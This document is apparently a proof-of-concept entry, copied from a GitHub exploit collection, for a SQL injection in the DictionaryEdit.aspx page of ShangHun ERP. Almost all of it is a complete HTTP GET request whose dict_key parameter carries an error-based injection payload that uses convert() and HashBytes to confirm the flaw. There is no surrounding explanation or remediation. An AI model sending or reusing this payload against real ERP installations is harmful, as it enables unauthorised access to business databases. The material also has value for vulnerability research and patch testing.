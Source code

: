 # shanghunerp_DictionaryEdit_sqli

2024.4.1 @2
from : https://github.com/wy876/POC/blob/main/%E5%95%86%E6%B7%B7ERP-DictionaryEdit.aspxSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

```
GET /Sys/DictionaryEdit.aspx?dict_key=1%27%20and%201=convert(varchar(100),substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123456')),3,32))-- HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
User-Agent: Mozilla/5.0
```

